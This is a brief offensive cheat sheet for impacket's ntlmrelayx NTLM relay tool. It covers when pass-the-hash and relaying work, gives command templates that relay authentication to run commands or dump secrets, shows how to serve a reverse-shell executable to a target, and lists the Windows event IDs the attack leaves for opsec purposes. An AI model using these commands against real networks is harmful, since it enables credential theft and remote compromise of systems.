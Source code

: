 ### Source
https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py  

### General information
```
Pass-The-Hash with NTHash/NTLM possible
Pass-The-Hash with NET-NTLM/NTLMv1/v2 not possible
Relaying does not work if smb signing is enabled
```

### Relay requests to ip addresses, without -c ntlmrelayx will use secretsdump (must be in the same directory)
```
impacket-ntlmrelayx -tf <rhostFile> -c '<command>'
```

### Serve payload, -t = target, -e payload from file - if client throws smb version-error use: -smb2support
```
impacket-ntlmrelayx -t <rhost> -e <./reverse.exe>
```

### Opsec considerations - 
```
Windows Security Log Event IDs
-Logon (4624) -> multiple
-Logoff (4634) -> multiple
-Special Logon (4672) -> multiple

Windows System Logs
Service Control Manager (7040) -> multiple
```


